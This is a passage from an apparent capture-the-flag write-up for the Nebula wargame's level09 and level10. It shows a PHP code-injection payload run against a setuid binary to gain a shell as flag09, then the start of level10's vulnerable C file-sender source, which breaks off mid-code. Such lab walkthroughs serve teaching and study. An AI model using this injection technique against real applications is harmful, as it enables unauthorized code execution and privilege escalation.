 Actually, I have found the third solution without using $use_me parameter, but recycling $filename:
{% codeblock lang:console %}
sh-4.2$ cat /tmp/09 
[email {${system($filename)}}]
/bin/sh

sh-4.2$ chmod +x /tmp/09 

sh-4.2$ id
uid=1010(level09) gid=1010(level09) groups=1010(level09)

sh-4.2$ /home/flag09/flag09 /tmp/09 
PHP Notice:  Undefined offset: 2 in /home/flag09/flag09.php on line 22
/tmp/09: line 1: {${system($filename)}}]: bad substitution

sh-4.2$ id
uid=1010(level09) gid=1010(level09) euid=990(flag09) groups=990(flag09),1010(level09)

sh-4.2$ getflag 
You have successfully executed getflag on a target account
{% endcodeblock %}

## Level10
{% codeblock lang:c basic.c %}
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
  char *file;
  char *host;

  if(argc < 3) {
      printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
      exit(1);
  }

  file = argv[1];
  host = argv[2];

  if(access(argv[1], R_OK) == 0) {
      int fd;
      int ffd;
      int rc;
      struct sockaddr_in sin;
      char buffer[4096];

      printf("Connecting to %s:18211 .. ", host); fflush(stdout);
